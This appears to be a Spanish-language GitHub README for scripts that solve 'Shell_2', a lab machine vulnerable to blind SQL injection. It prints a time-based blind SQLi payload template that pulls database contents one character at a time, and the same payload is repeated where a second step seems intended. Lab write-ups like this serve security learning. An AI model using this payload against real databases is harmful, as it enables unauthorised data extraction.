 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

    > El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
    > Uso de encabezado `X-Forwarded-For`
    

## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa con
```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
Procedimos a 
```SQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado que pueda causar impactos negativos. El propósito es y sólo es con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
